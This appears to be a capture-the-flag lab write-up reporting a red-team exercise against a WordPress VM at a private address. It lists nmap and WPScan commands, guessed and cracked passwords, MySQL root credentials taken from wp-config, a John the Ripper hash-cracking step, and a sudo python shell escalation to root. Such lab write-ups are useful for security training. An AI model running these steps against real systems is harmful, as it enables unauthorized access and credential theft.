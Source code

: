# Red Team: Summary of Operations
 
## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
 
### Exposed Services
 
 
Nmap scan results for each machine reveal the below services and OS details:
 
Command: $ nmap -sV 192.168.1.110
  
  
![redteam1](https://user-images.githubusercontent.com/91024338/143156404-1f4162a4-e0e5-4385-884b-4daf231ff115.JPG)

 
This scan identifies the services below as potential points of entry:
 
- Target 1
 
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn 
  - Port 445/TCP Open netbios-ssn
 
The following vulnerabilities were identified on each target:
 
- Target 1
  - Weak user password
  - User enumeration (WordPress site)
  - Unsalted user password hash (WordPress site)
  - Misconfiguration of user privileges and user escalation
 
### Exploitation
 
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - Flag1: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - Used WPScan to enumerate users of the Target 1 WordPress site
	-Used Brute Force to guess Michael’s password
  - Command:
      - wpscan --url http://192.168.1.110/wordpress/ --enumerate u




	-Password:michael
      - SSH in michael: ssh michael@192.168.1.110
      - cd var/www/html
      - ls -l
      - nano service.html (Flag1 located) 


 
  - Flag2: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Used WPScan to enumerate users of the Target 1 WordPress site
	- Used password from previous Brute Force
	-Password: michael
      - ssh michael@192.168.1.110
      - cd var/www
      - ls 
      - cat flag2.txt
      
- Flag3:afc01ab56b50591e7dccf93122770cd2
**Exploit Used**
Same exploits used to gain Flag 1 and 2:
Accessing MySQL Database
-Commands
	-cd /var/www/html/wordpress
	-cat wp_config.php
(screenshot)
	-mysql -u root -p’R@v3nSecurity’ 
	-show databases;
	-use wordpress;
-show tables;
	-select * from wp_posts;

 



 
 
Flag4:715dea6c055b9fe3337544932f2941ce
	-**Exploit used**
- Used MySQL database to gain access to user credentials.
- Used John the Ripper to crack the password hash.
- Used Python to gain root privileges.
- User credentials are stored in the ‘wp_users table’ in the wordpress database.
- I copied/saved the usernames and password hashes to my Kali machine in a file named wp_hashes.txt.
-Commands:
	-mysql -u root -p’R@v3nSecurity’ 
	-show databases;
	-use wordpress;
	-show tables;
	-select * from wp_users;

 
 
-Commands:
	- cd /usr/share/wordlist
	- john --wordlist=rockyou.txt wp_hashes.txt
 


 
-Results: 
-Steven’s password: pink84
 
- After I cracked Steven’s password I SSH as Steven, checked for root      
  privileges and escalated to root with Python.
-Commands:
	-ssh steven@192.168.1.110
	-password: pink84
	- sudo -l
	- sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
	- cd /root
	- ls
	- cat flag4.txt

 
 

 

